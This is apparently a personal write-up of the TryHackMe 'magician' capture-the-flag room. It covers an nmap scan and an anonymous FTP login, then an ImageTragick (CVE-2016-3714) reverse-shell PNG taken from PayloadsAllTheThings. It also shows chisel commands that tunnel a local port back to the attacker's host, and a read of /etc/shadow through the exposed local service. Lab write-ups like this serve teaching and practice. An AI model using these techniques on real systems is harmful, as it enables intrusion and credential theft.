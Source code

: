 ```yaml
---
parent: "[[CTFs - THM]]"
resources:
---
```


```bash
# PLATFORM          . THM
# CTF NAME          . magician
# DESCRIPTION       . This magical website lets you convert image file formats
# DIFFICULTY        . easy
# CTF LINK          . https://tryhackme.com/r/room/magician
```

```bash
sudo nmap -sSVC -T5 -p- 10.10.231.21 -oN magician
```

```
PORT     STATE SERVICE    REASON         VERSION
21/tcp   open  ftp        syn-ack ttl 63 vsftpd 2.0.8 or later
8080/tcp open  http-proxy syn-ack ttl 63
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Tue, 19 Mar 2024 16:43:03 GMT
|     Connection: close
|     {"timestamp":"2024-03-19T16:43:04.475+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest:
|     HTTP/1.1 404
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Tue, 19 Mar 2024 16:43:03 GMT
|     Connection: close
|     {"timestamp":"2024-03-19T16:43:03.889+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   HTTPOptions:
|     HTTP/1.1 404
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Tue, 19 Mar 2024 16:43:03 GMT
|     Connection: close
|     {"timestamp":"2024-03-19T16:43:04.205+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   RTSPRequest:
|     HTTP/1.1 505
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Tue, 19 Mar 2024 16:43:03 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http       syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-title: magician
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
```

## PORT 21 

- I tried connecting with `anonymous:anonymous` ; at first, I hit CTRL+C since it took to long but I was thinking that maybe the network was slower so I've decided to try again until I would get an eventual timed out error.

```
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.

ftp> ls -lah
550 Permission denied.
```

- Alright. This was unexpected. 

- The [link](https://imagetragick.com/) is disclosing CVE-2016-3714 where one of the vulnerabilites present in that version of ImageMagick leads to RCE.

- My attention was taken by CVE number 4 and 5 (2016-3716 and 2016-3717). They allowed for file moving and local file read, respectively.

- After analyzing the PoCs for a while, I came with the conclusion that there should / could be some way of making ImageMagick execute commands.

- Then, I started googling around and stumbled across PayloadsAllTheThings(again... they really have all the things there :D )

- To be more specific, [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Picture%20ImageMagick/imagetragik1_payload_imageover_reverse_shell_netcat_fifo.png) example. We can have a '.png' file that will try to initiate a connection to a listening IP of our choice.

- So I've used this in a file called `payload.png` and replaced the example file and IP with `/tmp/f` and my own IP.

```
Listening on 0.0.0.0 5555
Connection received on 10.10.231.21 36312
ls
985
uploads
```

- After stabilizing the shell, I took a look around and found the first flag in `/home/magician/user.txt`. It was readable.

- Also, there's a file called `the_magic_continues`.

```
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

- So I've decided to take a look at listening ports.

```
magician@magician:~$ ss -tulpn
Netid State   Recv-Q  Send-Q          Local Address:Port     Peer Address:Port
udp   UNCONN  0       0               127.0.0.53%lo:53            0.0.0.0:*
udp   UNCONN  0       0           10.10.231.21%eth0:68            0.0.0.0:*
tcp   LISTEN  0       128                   0.0.0.0:8081          0.0.0.0:*
tcp   LISTEN  0       128             127.0.0.53%lo:53            0.0.0.0:*
tcp   LISTEN  0       128                 127.0.0.1:6666          0.0.0.0:*
tcp   LISTEN  0       100                         *:8080                *:*      users:(("java",pid=985,fd=25))
tcp   LISTEN  0       32                          *:21                  *:*
```

- Ports 6666 seems to be what we're looking for. 

- I've used chisel to port-forward since SSH wasn't available, `net.ipv4.ip_forward` was set to 0 and we couldn't restart nginx service to add a new entry. 

```bash
#attacker
/chisel server --reverse --port 7777
2024/03/20 00:29:59 server: Reverse tunnelling enabled
2024/03/20 00:29:59 server: Fingerprint kxO0fdn2bOS9IORXR0wnF4L1kzgZp7oTe/DG88nTAHg=
2024/03/20 00:29:59 server: Listening on http://0.0.0.0:7777
2024/03/20 00:30:08 server: session#1: tun: proxy#R:9002=>6666: Listening
```

```bash
#victim ; local app running on port 6666
./chisel client attacker:7777 R:9002:127.0.0.1:6666
2024/03/19 18:30:08 client: Connecting to ws://attacker:7777
2024/03/19 18:30:08 client: Connected (Latency 56.903598ms)
```

- I've accessed the website by navigating to `localhost:9002`. I was asked to enter a file.

- I've entered `/etc/shadow` and I got the output as binary. Then, I clicked on submit some more times and I've noticed that the encodoing is changing.

- Anyway, I've decided not to pursue password cracking and to read the `/root/root.txt` flag directly.


